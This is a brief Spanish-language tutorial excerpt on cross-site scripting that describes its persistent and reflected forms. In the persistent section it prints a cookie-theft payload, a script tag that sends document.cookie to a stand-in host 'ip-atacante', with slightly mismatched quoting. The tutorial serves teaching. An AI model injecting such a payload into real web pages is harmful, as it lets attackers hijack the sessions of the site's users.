 Esto es muy tiene la misma intención que un SQL Injection, pero esto aplica a las aplicaciones web, consiste en inyectar código sobre algún campo de entrada de datos que ofrezca.

## Tipos

**Cross Site Scripting persistente**
Si el código insertado se queda almacenado en el servidor, por ejemplo formando parte de contribución en un foro, el ataque se dice que es persistente, ya que cualquier usuario que ingrese al foro podrá leer dicha contribución inocente pero el *código inyectado por el atacante será ejecutado por el navegador y puede ocasionar un robo de la cookie-session.*

	<script>document.write("<img src="http://ip-atacante/img.jpeg?cookie='+ document.cookie +'">")</script>

**Cross Site Scripting reflejado**
Pero si el código que insertamos no se queda almacenad en la web, sino que va embebido centro de un enlace que se hace llegar de algún modo a la victima para que el ingrese en el, se dice que este tipo de ataque es reflejado.
